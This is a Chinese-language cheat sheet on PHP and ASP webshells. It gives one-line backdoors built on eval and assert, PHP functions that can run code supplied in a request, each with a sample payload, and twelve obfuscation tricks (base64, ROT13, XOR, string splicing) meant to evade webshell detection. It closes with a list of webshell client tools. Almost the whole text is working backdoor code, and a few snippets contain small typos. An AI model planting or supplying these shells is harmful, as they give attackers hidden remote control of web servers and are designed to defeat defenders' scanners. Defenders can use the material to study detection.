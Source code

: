 ## webshell

### 常见一句话

```php
<?php @eval($_POST['a']);?>
<?=assert($_POST['cmd'])?>
<%eval request("cmd")%>
<%execute request(123)%>
<%executeGlobal request(123)%>
```

### 常见PHP代码执行函数

- eval()

  有严格的PHP代码规范要求（必须加分号）

- assert()

  可以不加分号

- preg_replace()

  该函数功能是执行一个正则表达式的搜索和替换，但因为存在危险的/e修饰符（能将第二个参数当做PHP代码执行），使preg_replace()将replacement参数当作PHP代码（PHP7.0以上版本不支持该修饰符）

  ```php
  <?php @preg_replace("/abc/e",$_POST['cmd'],'abc');?>  
  cmd=phpinfo()  #没有严格的分号要求
  ```

- create_function()

  用于创建匿名函数，能够将第二个参数当做PHP代码来执行

  ```php
  $func = create_function('',$_POST['cmd']);
  $func();
  cmd=phpinfo();  #有严格的分号要求
  ```

- array_map()

  array_map()函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新值的数组

  ```php
  $func=$_POST['func'];
  $cmd=$_POST['cmd'];
  $array[0]=$cmd
  $newarray=array_map($func,$array);
  func=system&cmd=ifconfig  #system('ifconfig'); 该方式无法连webshell
  ```

  ```php
  $cmd = $_POST['cmd'];
  $array[0]=$cmd;
  $newarray=array_map('assert',$array);
  cmd=phpinfo()      #可以连webshell
  ```

  ```php
  $array=array(0,1,2,3,4);
  array_map($_GET['a'],$array);
  a=phpinfo   #这里会自动添加括号
  ```

- call_user_func()

  cal_user_func将第一个参数作为回调函数调用，将后面的参数作为回调函数的参数

  ```php
  call_user_func($_POST['a'],$_POST['cmd']);
  a=assert&cmd=phpinfo();
  a=assert&cmd  #webshell连接
  ```

- call_user_func_array()

  call_userfunc_func_array()调用第一个参数回调函数，并将后面参数（数组）作为回调函数的参数

  ```php
  $array[0]=$_POST['a'];
  call_user_func_array($array,$_POST['cmd']);
  a=assert&cmd=phpinfo();
  a=assert&cmd  #webshell连接
  ```

### webshell变形

1. 字符串替换

   ```php
   #字符串替换
   $a = str_replace("abc","","aabcsabcsabceabcrabct"); #将指定字符替换
   $a($REQUEST["cmd"]);
   #字符串替换
   $a = "assegg";
   $b = str_replace("gg","rt",$a);
   ["" => $b($_GET[cmd])];
   ```

2. base64编码

   ```php
   #base64
   $a=base64_decode("YXNzZXJ0");
   $a($_REQUEST['cmd']);
   ```

3. 字符串拼接

   ```php
   #字符串拼接
   $a = 'a'.'s'.'s';
   $b = 'e'.'r'.'t';
   $c = $a.$b;
   $c($_POST['cmd']);
   ```

4. 更换数据来源

   ```php
   #传多参1
   $_REQUEST[0]($_REQUEST[1]);
   http://xxx/shell.php?0=assert&      #连shell，密码为1
   #传多参2
   $_REQUEST[0]($_REQUEST[$_REQUEST[1]]);
   http://xxx/shell.php      #密码可以为0=assert&1=cmd&cmd
   ```

5. 字符串隐藏法

   ```php
   $a = 'asdvssrret';
   $b = $a[0].$a[1].$a[1].$a[8].$[7].$a[9];
   $b($_POST[cmd]);
   ```

6. 自定义函数

   ```php
   function demo($a){
   	@assert($a);
   }
   demo($_POST[1]);
   ```

7. 对象定义法

   ```php
   class webshell{
   	function demo($a){
   		@assert($a);
   	}
   }
   $web = new webshell();
   $web -> demo($_REQUEST[cmd]);
   ```

8. 对象魔术方法

   ```PHP
   class webshell{
   	public $xa = null;
   	public $xb = null;
   	function __construct(){  #自执行魔术方法
   		$this->xa = 'nffreg($_ERDHRFG[1])'; #assert($_REQUEST) ROT13
           $this->xb = str_rot13($this->xa);  #利用str_rot13函数还原
           @assert($this->xb);
   	}
   }
   new webshell();
   ```

9. create_function函数

   ```php
   #通过创建函数进行传值
   $a=create_function('',$_REQUEST[1]);
   $a();
   ```

10. 字符替换混淆法

    ```php
    #利用该种字符串字典，通过数组下标的方式获取指定字符，再进行一个个字符的拼接
    $__C_C="WlhaaGJDZ2tYMUJQVTFSYmVGMHBPdz0912345678";
    $__P_P="abcdefghijklmnopqrstuvwxyz";
    ```

11. 利用异或运算

    ```php
    $a=(chr(65)^chr(32)).(chr(83)^chr(32)).(chr(83)^chr(32)).(chr(5)^chr(96)).(chr(32)).(chr(32)));
    #assert
    $b='_'.(chr(103)^chr(32)).(chr(101)^chr(32)).(chr(116)^chr(32));
    #_GET
    $c=$$b;
    #$_GET
    ["By pass D"=>$a($c[cmd])];
    ```


12. 利用异或+php弱类型

    ```php
    @$_++;   #$_=1
    $__=('#'^'|');  # $__=_
    $__.=('.'^'~'); #_P
    $__.=('/'^'`'); #_PO
    $__.=('|'^'/'); #_POS
    $__.=('{'^'/'); #_POST
    ${$__}[!$_](${$__}[$_]);  #$_POST[0]($_POST[1]);
    ```

    ```php
    @$_++;   #$_=1
    $__=('#'^'|').('.'^'~').('/'^'`').('|'^'/').('{'^'/');
    ${$__}[!$_](${$__}[$_]);  #$_POST[0]($_POST[1]);
    ```

### 常用webshell工具

- 蚁剑（拓展插件，支持一句话）
- 冰蝎（二进制动态流量加密，自带shell）
- 哥斯拉（自带shell，功能丰富）
- weevely（kali自带）
  